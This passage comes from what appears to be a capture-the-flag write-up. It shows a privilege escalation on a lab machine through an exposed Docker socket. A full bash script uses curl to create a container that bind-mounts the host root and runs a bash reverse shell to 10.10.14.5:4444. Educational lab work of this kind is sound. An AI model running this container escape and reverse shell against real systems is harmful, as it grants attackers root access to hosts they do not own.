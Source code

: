 {% embed url="https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25" %}

We can edit this script a bit to fit our machine and then run it. Firstly, we need to change the image name based on this machine's config.

<figure><img src="../../../.gitbook/assets/image (130) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then proceed to use the exploit. Finalized code:

```bash
#!/bin/bash

# you can see images availables with
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# here we have sandbox:latest

# command executed when container is started
# change dir to tmp where the root fs is mount and execute reverse shell

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.5/4444 0<&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it, name the container peterpwn_root and execute as detached (-d)
curl -s -X POST --unix-socket /app/docker.sock -d "{\"Image\":\"laravel-app_main\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=test_root
 
# start the container
curl -s -X POST --unix-socket /app/docker.sock "http://localhost/containers/test_root/start"

```

Getting Shell:

<figure><img src="../../../.gitbook/assets/image (87) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (121) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then grab the flag:

<figure><img src="../../../.gitbook/assets/image (110) (1) (1).png" alt=""><figcaption></figcaption></figure>

Really hard machine.

